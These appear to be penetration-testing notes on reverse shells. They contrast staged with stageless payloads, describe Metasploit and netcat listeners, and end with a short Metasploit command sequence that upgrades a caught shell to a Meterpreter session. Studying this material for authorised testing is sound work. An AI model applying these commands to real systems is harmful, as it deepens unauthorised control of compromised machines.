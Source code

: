 # Shells

![](<../../../../.gitbook/assets/image (333).png>)

## Staged Payloads

A payload that is not enough to create a shell itself

It is a downloader part that needs to download and execute the rest of the payload

It is much smaller

![](<../../../../.gitbook/assets/image (21).png>)

You're required to use a Metasploit listener in order to receive the shell connection

The listerner payload has to be exactly the same as the msfvenom payload

![](<../../../../.gitbook/assets/image (41).png>)

![](<../../../../.gitbook/assets/image (497).png>)

## Stageless Payloads

A standalone program that doesn't need anything additional, just the netcat listener on your computer

Its size is much bigger

![](<../../../../.gitbook/assets/image (397).png>)

## Using Metasploit to Catch a Shell

![](<../../../../.gitbook/assets/image (496).png>)

![](<../../../../.gitbook/assets/image (295).png>)

### Upgrading to Meterpreter Shell

```
Ctrl+Z or background
use post/multi/manage/shell_to_meterpreter
set lhost [HOST]
set lport [PORT]
set session [SESSION ID]
run
```
